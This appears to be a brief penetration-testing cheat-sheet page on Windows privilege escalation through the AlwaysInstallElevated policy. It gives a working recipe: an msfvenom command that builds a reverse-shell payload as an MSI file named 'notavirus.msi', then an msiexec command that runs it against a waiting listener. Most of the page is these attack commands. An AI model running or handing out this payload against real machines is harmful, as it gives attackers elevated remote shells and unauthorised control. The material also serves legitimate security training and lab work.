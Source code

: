 # AlwaysInstallElevated

### Identifying

Running winpeas gives an output like this

![](<../.gitbook/assets/image (1) (1) (1).png>)

### Exploiting

#### _Step1_

Create a msi exe using msfvenom

_`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f msi > notavirus.msi`_

_\`\`_

#### _Step2_

Transfer it to windows and run it after setting up a listener

_`msiexec /i "C:\Users\Phoebe\Desktop\notavirus.msi"`_
